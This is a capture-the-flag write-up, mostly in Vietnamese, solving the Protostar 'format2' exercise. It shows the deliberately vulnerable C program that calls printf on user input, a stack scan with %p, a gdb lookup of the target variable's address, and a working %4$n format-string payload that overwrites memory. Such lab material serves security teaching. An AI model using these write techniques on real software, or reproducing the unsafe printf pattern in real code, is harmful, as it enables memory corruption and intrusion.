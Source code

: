 # FORMAT TWO

## About

This level moves on from format1 and shows how specific values can be written in memory.

This level is at /opt/protostar/bin/format2

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Solutions

`FORMAT TWO` là nâng cấp của `FORMAT ONE`, nó cho chúng ta thấy cách mà chúng ta có thể sử dụng chuỗi định dạng để thay đổi giá trị theo ý muốn của người khai thác tại vị trí tùy ý trên bộ nhớ. Thử thách sẽ hoàn thành khi ta thay đổi được giá trị của biến toàn cục target == 64 và in ra "you have modified the target :)".

Đầu tiên ta đi tìm input của chúng ta được định dạng ở parameter thứ mấy bằng cách quét stack.

```
root@protostar:/opt/protostar/bin# ./format2
AAAA %p %p %p %p %p %p %p
AAAA 0x200 0xb7fd8420 0xbffffb04 0x41414141 0x20702520 0x25207025 0x70252070
target is 0 :(
root@protostar:/opt/protostar/bin#
```

"AAAA" được định dạng ở parameter thứ 4, giờ ta tìm địa chỉ của biến toàn cục `target`.

```
root@protostar:/opt/protostar/bin# gdb -q ./format2
Reading symbols from /opt/protostar/bin/format2...done.
(gdb) p target
$1 = 0
(gdb) p &target
$2 = (int *) 0x80496e4
(gdb)
```

Khi ta sử dụng định dạng chuỗi dưới dạng `%[number]$n` điều đó tương đương với sử dụng định dạng chuỗi thứ `number` trong khai thác. Ở thử thách này nó sẽ là `%4$n`.

Với 4 ký tự là địa chỉ ở đầu chuỗi payload ta cần thêm 60 ký tự để có thể ghi chính xác giá trị 64 vào biến `target`, tôi sẽ sử dụng độ dài tối thiểu mà tôi có nói đến ở `FORMAT ZERO`.

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# python -c 'print "\xe4\x96\x04\x08" + "%60c" + "%4$n"' | ./format2

you have modified the target :)
```

## Documents

<https://en.wikipedia.org/wiki/Printf_format_string>

<https://stackoverflow.com/questions/3401156/what-is-the-use-of-the-n-format-specifier-in-c>



